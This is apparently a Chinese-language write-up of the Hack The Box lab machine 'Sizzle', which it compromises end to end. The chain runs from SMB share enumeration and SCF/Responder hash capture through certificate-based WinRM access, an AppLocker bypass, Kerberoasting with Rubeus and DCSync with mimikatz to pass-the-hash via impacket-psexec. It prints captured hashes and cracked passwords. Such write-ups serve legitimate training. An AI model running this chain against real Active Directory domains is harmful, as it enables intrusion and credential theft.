





## 信息收集
```
┌──(kali㉿kali)-[~/Desktop/HTB/Active Directory 101]
└─$ sudo nmap -Pn -sV -sC -p- --open --min-rate 10000 10.10.10.103 -o scan/sizzle
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-13 11:16 EDT
Nmap scan report for 10.10.10.103
Host is up (0.40s latency).
Not shown: 65506 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE           VERSION
21/tcp    open  ftp               Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2022-06-13T15:20:27+00:00; 0s from scanner time.
443/tcp   open  ssl/http          Microsoft IIS httpd 10.0
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
| tls-alpn: 
|   h2
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: 2022-06-13T15:20:26+00:00; 0s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2022-06-13T15:20:27+00:00; 0s from scanner time.
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2022-06-13T15:20:26+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
3269/tcp  open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2022-06-13T15:20:27+00:00; 0s from scanner time.
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  wsmans?
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2018-07-02T20:26:23
|_Not valid after:  2019-07-02T20:26:23
|_ssl-date: 2022-06-13T15:20:27+00:00; 0s from scanner time.
9389/tcp  open  mc-nmf            .NET Message Framing
47001/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49677/tcp open  unknown
49688/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49689/tcp open  unknown
49691/tcp open  unknown
49694/tcp open  unknown
49699/tcp open  unknown
49708/tcp open  unknown
49714/tcp open  unknown
Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-06-13T15:18:20
|_  start_date: 2022-06-13T15:03:51

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 243.85 seconds

```

扫描`web`目录
```    
[10:22:32] 403 -    2KB - /Trace.axd                                          
[10:23:16] 403 -    1KB - /aspnet_client/                                   
[10:23:16] 301 -  157B  - /aspnet_client  ->  http://10.10.10.103/aspnet_client/
[10:23:26] 403 -    1KB - /certenroll/                                      
[10:23:26] 401 -    1KB - /certsrv/                                         
[10:23:57] 301 -  150B  - /images  ->  http://10.10.10.103/images/          
[10:23:57] 403 -    1KB - /images/                                          
[10:23:59] 200 -   60B  - /index.html                                       
```

从扫描结果可以看出，是一个证书申请服务

匿名登录`ftp`，但是没有任何数据

使用`smbmap`来查看共享

```
└─$ smbmap -u guest -H 10.10.10.103
[+] IP: 10.10.10.103:445        Name: 10.10.10.103                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        CertEnroll                                              NO ACCESS       Active Directory Certificate Services share
        Department Shares                                       READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Operations                                              NO ACCESS
        SYSVOL                                                  NO ACCESS       Logon server share 

```

可以看到对`Department Shares`目录存在访问权限，递归列出所有的文件，在目录`Users`目录下可以得到部分用户名

```
smbclient "//10.10.10.103/Department Shares" -N
smb: \> ls
smb: \> recurse
smb: \> ls
```
用户名列表：
```
amanda
amanda_adm
bill
bob
chris
henry
joe
jose
lkys37en
morgan
mrb3n
Public
```

在`ZZ_ARCHIVE`目录下存在一些文件，但是大小都一样，下载两个下来看看是什么
```
  AddComplete.pptx                    A   419430  Mon Jul  2 15:32:58 2018
  AddMerge.ram                        A   419430  Mon Jul  2 15:32:57 2018
  ConfirmUnprotect.doc                A   419430  Mon Jul  2 15:32:57 2018
  ConvertFromInvoke.mov               A   419430  Mon Jul  2 15:32:57 2018
  ConvertJoin.docx                    A   419430  Mon Jul  2 15:32:57 2018
  CopyPublish.ogg                     A   419430  Mon Jul  2 15:32:57 2018
  DebugMove.mpg                       A   419430  Mon Jul  2 15:32:57 2018
  DebugSelect.mpg                     A   419430  Mon Jul  2 15:32:58 2018
  DebugUse.pptx                       A   419430  Mon Jul  2 15:32:57 2018
  DisconnectApprove.ogg               A   419430  Mon Jul  2 15:32:58 2018
  DisconnectDebug.mpeg2               A   419430  Mon Jul  2 15:32:57 2018
  EditCompress.xls                    A   419430  Mon Jul  2 15:32:57 2018
  EditMount.doc                       A   419430  Mon Jul  2 15:32:58 2018
  EditSuspend.mp3                     A   419430  Mon Jul  2 15:32:58 2018
  EnableAdd.pptx                      A   419430  Mon Jul  2 15:32:57 2018
  EnablePing.mov                      A   419430  Mon Jul  2 15:32:58 2018
  EnableSend.ppt                      A   419430  Mon Jul  2 15:32:58 2018
  EnterMerge.mpeg                     A   419430  Mon Jul  2 15:32:57 2018
  ExitEnter.mpg                       A   419430  Mon Jul  2 15:32:58 2018
  ExportEdit.ogg                      A   419430  Mon Jul  2 15:32:57 2018
  GetOptimize.pdf                     A   419430  Mon Jul  2 15:32:58 2018
  GroupSend.rm                        A   419430  Mon Jul  2 15:32:58 2018
  HideExpand.rm                       A   419430  Mon Jul  2 15:32:58 2018
  InstallWait.pptx                    A   419430  Mon Jul  2 15:32:57 2018
  JoinEnable.ram                      A   419430  Mon Jul  2 15:32:58 2018
  LimitInstall.doc                    A   419430  Mon Jul  2 15:32:57 2018
  LimitStep.ppt                       A   419430  Mon Jul  2 15:32:57 2018
  MergeBlock.mp3                      A   419430  Mon Jul  2 15:32:58 2018
  MountClear.mpeg2                    A   419430  Mon Jul  2 15:32:57 2018
  MoveUninstall.docx                  A   419430  Mon Jul  2 15:32:57 2018
  NewInitialize.doc                   A   419430  Mon Jul  2 15:32:57 2018
  OutConnect.mpeg2                    A   419430  Mon Jul  2 15:32:58 2018
  PingGet.dot                         A   419430  Mon Jul  2 15:32:58 2018
  ReceiveInvoke.mpeg2                 A   419430  Mon Jul  2 15:32:56 2018
  RemoveEnter.mpeg3                   A   419430  Mon Jul  2 15:32:57 2018
  RemoveRestart.mpeg                  A   419430  Mon Jul  2 15:32:57 2018
  RequestJoin.mpeg2                   A   419430  Mon Jul  2 15:32:58 2018
  RequestOpen.ogg                     A   419430  Mon Jul  2 15:32:58 2018
  ResetCompare.avi                    A   419430  Mon Jul  2 15:32:58 2018
  ResetUninstall.mpeg                 A   419430  Mon Jul  2 15:32:58 2018
  ResumeCompare.doc                   A   419430  Mon Jul  2 15:32:58 2018
  SelectPop.ogg                       A   419430  Mon Jul  2 15:32:57 2018
  SuspendWatch.mp4                    A   419430  Mon Jul  2 15:32:58 2018
  SwitchConvertFrom.mpg               A   419430  Mon Jul  2 15:32:57 2018
  UndoPing.rm                         A   419430  Mon Jul  2 15:32:58 2018
  UninstallExpand.mp3                 A   419430  Mon Jul  2 15:32:57 2018
  UnpublishSplit.ppt                  A   419430  Mon Jul  2 15:32:58 2018
  UnregisterPing.pptx                 A   419430  Mon Jul  2 15:32:57 2018
  UpdateRead.mpeg                     A   419430  Mon Jul  2 15:32:57 2018
  WaitRevoke.pptx                     A   419430  Mon Jul  2 15:32:57 2018
  WriteUninstall.mp3                  A   419430  Mon Jul  2 15:32:58 2018       
```

只是一些没用的数据文件，应该所有文件都是一样的
```
└─$ hexdump ConvertJoin.docx 
0000000 0000 0000 0000 0000 0000 0000 0000 0000
*
0066660 0000 0000 0000                         
0066666

```

## SCF 文件攻击

现在有用的信息就是可以匿名访问`Department Shares`共享，和一些用户名。接着试试看目录可不可写

先挂载目录到系统上

```
mount -t cifs -o rw,username=guest,password= '//10.10.10.103/Department Shares' /mnt
```

然后对每个目录进行测试
```
#!/bin/bash

list=$(find /mnt -type d)
for d in $list
do
    touch $d/test 2>/dev/null
    if [ $? -eq 0 ]
    then
        echo $d " is writable"
    fi
done
```

经过测试，`zz_archive`和`users\public`目录可写，所以这里可以尝试使用`scf`文件来进行攻击。

把`scf`文件都拷贝到可写的目录中，并开启`responder`来监听

```
responder -I tun1

cp view.scf /mnt/users/public/
cp view.scf /mnt/ZZ_ARCHIVE/
```

这时我们可以从responder中得到用户的HASH

```
[SMB] NTLMv2-SSP Client   : ::ffff:10.10.10.103
[SMB] NTLMv2-SSP Username : HTB\amanda
[SMB] NTLMv2-SSP Hash     : amanda::HTB:e5a2707d44ff581a:91E676872DFB1EB83F0E8095B37596F4:0101000000000000005B2EBEC383D801BD491C5FBF3EA00D0000000002000800490053004900540001001E00570049004E002D004C00470046005700560038004D0039004E0051004A0004003400570049004E002D004C00470046005700560038004D0039004E0051004A002E0049005300490054002E004C004F00430041004C000300140049005300490054002E004C004F00430041004C000500140049005300490054002E004C004F00430041004C0007000800005B2EBEC383D80106000400020000000800300030000000000000000100000000200000D9F3694E34B7CA69D6F6745CDCEB4EE4C35A9D86BBD0A0A1671B7DB29EC5DC740A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003200000000000000000000000000                                    
[*] Skipping previously captured hash for HTB\amanda

```

接下来使用`hashcat`来进行密码破解，成功破解得到用户`AMANDA`的密码 `Ashare1972`
```
hashcat -m 5600 hash.txt wordlist.txt

AMANDA::HTB:e5a2707d44ff581a:91e676872dfb1eb83f0e8095b37596f4:0101000000000000005b2ebec383d801bd491c5fbf3ea00d0000000002000800490053004900540001001e00570049004e002d004c00470046005700560038004d0039004e0051004a0004003400570049004e002d004c00470046005700560038004d0039004e0051004a002e0049005300490054002e004c004f00430041004c000300140049005300490054002e004c004f00430041004c000500140049005300490054002e004c004f00430041004c0007000800005b2ebec383d80106000400020000000800300030000000000000000100000000200000d9f3694e34b7ca69d6f6745cdceb4ee4c35a9d86bbd0a0a1671b7db29ec5dc740a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003200000000000000000000000000:Ashare1972
```

在得到用户密码之后，先登录`LDAP`把域信息导出来，然后可以尝试登录`smb`，`FTP`，`winrm`, `ad cs`等服务。

从`ldap`信息中，我们可以得到`mrlky`用户设置了`spn`，但是外部没有开启`88`端口，无法进行`kerberoast`攻击。


而`smb`和`ftp`服务器上都没有什么额外的发现。除了`winrm`服务，其他的均可以登录成功，`winrm`除了默认的密码登录，还支持证书登录。

在`ad cs`服务中，使用我们控制的用户进行证书申请



那么可以先试着申请一个证书看看

```
openssl genrsa -out priv.key 2048
openssl req -new -key priv.key -out sign.csr
```

使用`sign.csr`到证书申请服务器上申请证书，证书格式选择`base64`



这里使用`winrm_shell.rb`来进行登录，对代码进行相应的修改即可

```
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new( 
  endpoint: 'https://10.10.10.103:5986/wsman',
  transport: :ssl,
  :client_cert => 'certnew.cer',
  :client_key => 'priv.key',
  :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end

```


## 横向移动

使用证书成功登录

```
PS htb\amanda@SIZZLE Users> whoami /all

USER INFORMATION
----------------

User Name  SID                                           
========== ==============================================
htb\amanda S-1-5-21-2379389067-1826974543-3574127760-1104


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes                                        
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

下载`winpeas`来进行提权，尝试了`bat`和`exe`两个不同文件格式，都禁止执行。那么服务器上应该是配置了`app locker`。



查看当前的`app locker`策略

```
PS htb\amanda@SIZZLE Documents> (Get-AppLockerPolicy -Local).RuleCollections


PublisherConditions : {*\*\*,0.0.0.0-*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : a9e18c21-ff8f-43cf-b9fc-db40eed693ba
Name                : (Default Rule) All signed packaged apps
Description         : Allows members of the Everyone group to run packaged apps that are signed.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : a61c8b2c-a319-4cd0-9690-d2177cad7b51
Name                : (Default Rule) All files located in the Windows folder
Description         : Allows members of the Everyone group to run applications that are located in the Windows folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%OSDRIVE%\tmp\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : d754b869-d2cc-46af-9c94-6b6e8c10d095
Name                : All files located in the Program Files folder
Description         : Allows members of the Everyone group to run applications that are located in the Program Files folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : fd686d83-a829-4351-8ff4-27c7de5755d2
Name                : (Default Rule) All files
Description         : Allows members of the local Administrators group to run all applications.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow

PublisherConditions : {*\*\*,0.0.0.0-*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : b7af7102-efde-4369-8a89-7a6a392d1473
Name                : (Default Rule) All digitally signed Windows Installer files
Description         : Allows members of the Everyone group to run digitally signed Windows Installer files.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\Installer\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 5b290184-345a-4453-b184-45305f6d9a54
Name                : (Default Rule) All Windows Installer files in %systemdrive%\Windows\Installer
Description         : Allows members of the Everyone group to run all Windows Installer files located in %systemdrive%\Windows\Installer.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*.*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 64ad46ff-0d71-4fa0-a30b-3f3d30c5433d
Name                : (Default Rule) All Windows Installer files
Description         : Allows members of the local Administrators group to run all Windows Installer files.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow

PathConditions      : {%PROGRAMFILES%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 06dce67b-934c-454f-a263-2515c8796a5d
Name                : (Default Rule) All scripts located in the Program Files folder
Description         : Allows members of the Everyone group to run scripts that are located in the Program Files folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 9428c672-5fc3-47f4-808a-a0011f36dd2c
Name                : (Default Rule) All scripts located in the Windows folder
Description         : Allows members of the Everyone group to run scripts that are located in the Windows folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : ed97d0cb-15ff-430f-b82c-8d7832957725
Name                : (Default Rule) All scripts
Description         : Allows members of the local Administrators group to run all scripts.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow

```

从策略中可以看到其中一条，在`%WINDIR%\*`目录下的用户可以执行任意的脚本和程序，那么我们可以把文件拷贝到`c:\windows\temp`目录中，一般这个目录都具有写权限,再到这个目录下去执行程序即可。

这里使用`Covenant`这个`C2`工具来作为控制，先把`winrm`升级为`Covenant`, 生成客户端并监听。


从上面`LDAP`中获得的信息可知，用户`mrlky`设置了`spn`，也可以使用`setspn -T * -Q */*`命令来查询。那么我们可以利用`spn`来发起`kerberoast`攻击。

在`Covenant`中执行`rubeus.exe`

```
(admin) > Rubeus kerberoast
```



执行失败，并没有得到`hash`。这是因为我们使用的证书验证的`winrm`，并没有生成适当的凭据。这里我们可以使用`make-token`命令来获得用户的凭据

```
(admin) > MakeToken amanda htb Ashare1972

Successfully made and impersonated token for user: htb\\amanda
```

接着就可以执行`kerberoast`攻击了

```
(admin) > Rubeus kerberoast

$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle*$DDC4DB6E9B0ADED909FFBFD68414B0BA$C3B9D954D6AF1832B51BB49C1072B3773F68E2934D074CDB3AE402DE95A63F9AE8AA95C2E0004996B44C8B306B08896CFA68BD94DDACEA58E561693EE65440765B7D538F3541B8FB784878FCF2A4A6F021B145BB5BBC57DAF7847B7058DECEE7D74B4471C5A81E8B5B6D9E5FB81523FA5549E02A5741447733B268E3E9F909147CF9376136A872C3AC0525A77D373203FCCACCB86DB567FEAC7EF68D4670AE2B61B1469DACF8BBD1179A59F8A626CBBC9E2181BE0C9A57C4F7A350F4DCA14033C9281A055114DEBB78EA6DF8C041762DCB46732A30E4A0D8EB917FDAF0B2155C475D3F3170D38A853E5BE8910B093BA12026550C2CA3E3AA8CFAE0634A9E96772B0CE46527E0247C08074AA1F580D895667F8965B1A8666703E6499367773EFCC2C4BC87A7807765C5FF4960602A34C9D65DDFE53C053F260756E665C933B52C32127C1D19F0CE68291F88A71CD2404999D11B3A8733FA878EC5FE89379004F6F258C06554AD5F00060E6A0A38F47270F4E4556F4C3E16408AFC91C89399F346621C110B4C9E3373BB4509B9B58BB582690AEE78CB134B3536BDAF75D222255DAF6A2D0DE047186C122BA1439D9B9F3A3200C2633D1200D921C93976977AC6DBF82CD0207317798705015EDE6D75EC2954FDFC8D327FE03F2BE9C7BF745B1FA5E5310331136A7461773C16E261CFE712E5BDA932C154A2B68BAD06B1EB33EF14E350517E9B599272DC2740FBEA75F49A7852802389820EE58751C73F285715BD88173D92DB8B232EC5CBA86B9EC1D4A502DAAB071A542951BE34BFD10ADEFCD726F20C02FF261DC112F271417CC8C93D02D5655804E2661C30F6DED7A1D24EBC3A1A53586F919A4DE032712D29F7939FF20CFE83324C76627F6E2CE241BC2081A7848E4361E25762B28E9A3BE76177A4258C8432940F63C4351A78F0588417E2B1C2A8BE5D7789F90067AADEE2226176923AA40B0F8DD5674D67815E9E5AD20FB2BAA60A5EBE93ACC855DD7C84E9444A28E8540C046E0E4C65255387564A405013389C15D33362E89681B05892CA4355E372168E7659F4A2F30C3198A023FD660090EDFD3DF5391B5BB512609D6B75744171A1276664173820F216D891EEF1964A5D0DCD5E5A5EA6789CC06AC907CEE4024EE6E33DBA73E28A26516BB2BEEC02E911CF1ECBDDA93F9CFCF3803A5686746763805F53F32CE02B511D731546E3DE68254711EAB70E9DDF66F22A72B118301D0C13633AC2D1EB5B35FF3923945257424CE3BBC1599B00F2A45AA3B9309270C887FFA73216C03DE0090786CEC95BCC9ACB7BE6513F681641E16AC4F6C10D1B7CE47D741B2B5C379C56D9DE503773671A696D493EBFE5471BD6B898918F847ABCFF5CCB25B2B528E51E1D1242E8ECA66B62
```

使用`hashcat`成功破解得到用户`mrlky`的密码`Football#7`，并申请证书登入`winrm`。最终在`mrlky`用户的桌面得到`user.txt`。

## 提权

把当前`shell`升级为`covenant`，查看当前用户权限
```
PS htb\mrlky@SIZZLE documents> whoami /all

USER INFORMATION
----------------

User Name SID                                           
========= ==============================================
htb\mrlky S-1-5-21-2379389067-1826974543-3574127760-1603


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes                                        
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

```

这里使用`powerview`来查域内谁拥有`GenericAll`和`Replication-Get`的权限
```
powershell Get-ObjectACL "DC=htb,DC=local" -ResolveGUIDs | ? { ( $_.ActiveDirectoryRights -match 'GenericAll' ) -or ( $_.ObjectAceType -match 'Replication-Get' ) }
```


从结果中得知当前用户具有`DS-Replication-Get-Changes-All`的权限，也就是说可以进行`DCSync`攻击

```
[6/21/2022 8:49:13 AM UTC] DCSync completed

(admin) > DCsync administrator


  .#####.   mimikatz 2.2.0 (x64) #17763 Apr  9 2019 23:22:27
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::dcsync /user:administrator /domain:HTB.LOCAL
[DC] 'HTB.LOCAL' will be the domain
[DC] 'sizzle.HTB.LOCAL' will be the DC server
[DC] 'administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 7/12/2018 1:32:41 PM
Object Security ID   : S-1-5-21-2379389067-1826974543-3574127760-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: f6b7160bfc91823792e0ac3a162c9267
    ntlm- 0: f6b7160bfc91823792e0ac3a162c9267
    ntlm- 1: c718f548c75062ada93250db208d3178
    lm  - 0: 336d863559a3f7e69371a85ad959a675
```

至此我们得到了管理员的`hash`，可以进行`pth`来获得管理员权限了。`impacket-psexec`使用`LM:NTLM`的格式
```
impacket-psexec -dc-ip 10.10.10.103 htb.local/administrator@10.10.10.103 -hashes 336d863559a3f7e69371a85ad959a675:f6b7160bfc91823792e0ac3a162c9267
```